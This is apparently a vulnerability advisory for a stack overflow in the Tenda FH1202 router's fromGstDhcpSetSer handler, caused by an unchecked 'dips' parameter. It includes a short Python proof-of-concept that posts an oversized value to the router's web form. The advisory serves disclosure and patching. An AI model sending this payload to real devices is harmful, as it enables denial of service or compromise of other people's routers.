 # Tenda FH1202 fromGstDhcpSetSer
### Overview
vendor: Tenda
product: FH1202
version: V1.2.0.14(408)
type: Stack Overflow
### Vulnerability Description
Tenda FH1202 V1.2.0.14(408) were discovered to contain a stack overflow via the dips parameter in the fromGstDhcpSetSer function.
### Vulnerability details
In function fromGstDhcpSetSer line 41, it reads in a user-provided parameter `dips`, and the variable is passed to the `strncpy` function without any length check, which may overflow the stack-based buffer `dest`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/13.png)

### POC
```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/GstDhcpSetSer"

data = {
    "dips": "a" * 4000 + ".1",
}

response = requests.post(url, data=data)
print(response.text)
```

![](images/14.png)
